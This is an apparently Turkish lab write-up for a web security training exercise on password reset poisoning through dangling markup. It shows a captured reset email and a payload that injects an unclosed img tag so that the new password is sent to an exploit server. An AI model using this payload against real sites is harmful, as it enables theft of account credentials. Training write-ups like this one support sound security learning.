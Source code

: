 ![Untitled](0x13%20ada5ae96539943db9d14955c71e3b77c/Untitled%2013.png)

# Lab: Password reset poisoning via dangling markup

![Untitled](0x13%20ada5ae96539943db9d14955c71e3b77c/Untitled%2014.png)

Lab ortamına eriştikten sonra `şifremi unuttum` seçeneği üzerinden devam edelim ve `wiener` kullanıcısı için bir şifre sıfırlama isteğinde bulunalım.

![Untitled](0x13%20ada5ae96539943db9d14955c71e3b77c/Untitled%2015.png)

Daha sonra exploit server üzerinden erişebildiğimiz `e-mail client`’ına gidelim.

![Untitled](0x13%20ada5ae96539943db9d14955c71e3b77c/Untitled%2016.png)

Burada gelen mesajın raw halini incelediğimizde aşağıdaki gibi bir yapıyla karşılaşırız. Yani kullanıcıya giden e-posta içeriğinin HTML yapısı bu şekildedir. Bu yapıyı incelediğimizde parolasını sıfırlamak isteyeyn kişiye yeni parolanın gönderildiğini görmekteyiz;

```html
Sent:     2024-02-23 13:10:02 +0000
From:     no-reply@0aba0048049a4bad865da370002d00bc.web-security-academy.net
To:       wiener@exploit-0af0004b046e4be8868da274014a009e.exploit-server.net
Subject:  Account recovery

<p>Hello!</p><p>Please <a href='https://0aba0048049a4bad865da370002d00bc.web-security-academy.net/login'>click here</a> to login with your new password: hXnddvQ5H4</p><p>Thanks,<br/>Support team</p><i>This email has been scanned by the MacCarthy Email Security service</i>
```

![Untitled](0x13%20ada5ae96539943db9d14955c71e3b77c/Untitled%2017.png)

Burada a tag’inin href değerini öyle bir değer ile değiştirmeliyiz ki bu kısım parolayı taşıyan bir URL’e dönüşmeli. Yani buradaki link’e tıkladığında bize parolanın da gelmesi gerekiyor. Bu kısma gelmeden önde `Dangling markup`  konusunu anlamamız gerekmektedir. 

`Dangling Markup`, bir metin veya belge içinde yer alan, ancak tamamlanmamış veya uyumsuz bir HTML veya diğer işaretleme diline ait etiketleri ifade eder. Bu etiketler, genellikle başlangıç etiketi açıldıktan sonra kapatılmamış veya kapatılması gereken bir etiketin başlangıcı olmayan durumları temsil eder.

Örneğin yukarıdaki yapıyı bu şekilde değiştirebiliriz, eklediğimiz bu yeni kısım ile birlikte HTML içeriğin kalan tüm kısmı img etiketine bağlanmış olacaktır;

```html
payload: '></a> <img src="http:// https://exploit-0a94007f037fa560847ca470015a00ce.exploit-server.net/exploit/?a=
```

```html
<p>Hello!</p>
<p>
  Please
  <a
    href="https://paylaod/login"
    >click here</a
  >
  to login with your new password: hXnddvQ5H4
</p>
<p>Thanks,<br />Support team</p>
<i>This email has been scanned by the MacCarthy Email Security service</i>

```
